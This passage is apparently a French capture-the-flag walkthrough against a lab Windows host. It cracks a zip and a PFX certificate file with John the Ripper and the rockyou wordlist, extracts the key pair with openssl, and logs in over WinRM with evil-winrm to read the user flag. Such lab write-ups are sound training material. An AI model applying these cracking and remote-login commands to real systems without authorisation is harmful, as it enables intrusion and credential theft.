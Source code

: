 ```
john-the-ripper.zip2john winrm_backup.zip > hash # Permet d'extraire le hash sous un format que john pourra traiter
john --fork=4 --wordlist=/home/ibra/enum-lists/rockyou.txt hash 
john --show hash # winrm_backup.zip/legacyy_dev_auth.pfx:supremelegacy
```

On extrait un fichier nommé `legacyy_dev_auth.pfx` en entrant le mot de passe `supremelegacy`.

## Extraction des clés et connexion WinRM

En voulant m'intéresser au format pfx, j'ai trouvé une excellente doc d'IBM à ce [sujet](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file).

Celui-ci nous explique qu'un fichier pfx permet de contenir un certificat SSL contenant la clé publique et la clé privé correspondant au certificat.
Cependant pour pouvoir extraire ses informations, il faut un mot de passe pour y accéder. 

Nous répétons donc (quasiment) le même procédé qu'avec le zip protégé :

```
john ne fournit pas d'executable permettant d'extraire un format de hash à partir d'un pfx. Cependant il existe sur GitHub un programme permettant de nous
rendre ce service là.

Repository : https://github.com/sirrushoo/python

python2.7 pfx2john.py legacyy_dev_auth.pfx > hashpfx 
john --fork=4 --format=pfx-opencl --wordlist=/home/ibra/enum-lists/rockyou.txt hashpfx
john --show hashpfx # legacyy_dev_auth.pfx:thuglegacy:::::legacyy_dev_auth.pfx
```

Il nous reste donc plus qu'à extraire le certificat et la clé privée associée. Ca tombe bien car la documentation d'IBM nous indique directement comment s'y prendre.

```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -out cert.pem # certificat
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem # clé privé
```

J'ai ensuite longtemps cherché comment m'y prendre pour la suite, ce dont j'étais sûr c'est qu'il fallait que je me connecte sur un service avec ces
deux informations. En repassant sur mon output nmap, je remarque qu'un service particulièrement intéressant qui tourne sur du http/https : **winrm (5986)**.

Déjà rencontré auparavant, j'ai donc tenté d'utiliser l'outil evil-winrm me permettant de me connecter à distance au bureau d'un utilisateur du domaine.
Il se trouve que le certificat appartient à un dénommé **legacyy** et qu'il est possible via evil-winrm de se connecter par le biais d'un certificat ssl (clé publique) et la clé privée.

En lisant un peu la documentation, on peut activer la connexion SSL, filé le certificat et la clé privée.

```
evil-winrm -i 10.10.11.152 -S -c cert.pem -k key.pem 

*Evil-WinRM* PS C:\Users\legacyy\Desktop> cat "C:/Users/legacyy/Desktop/user.txt"
```
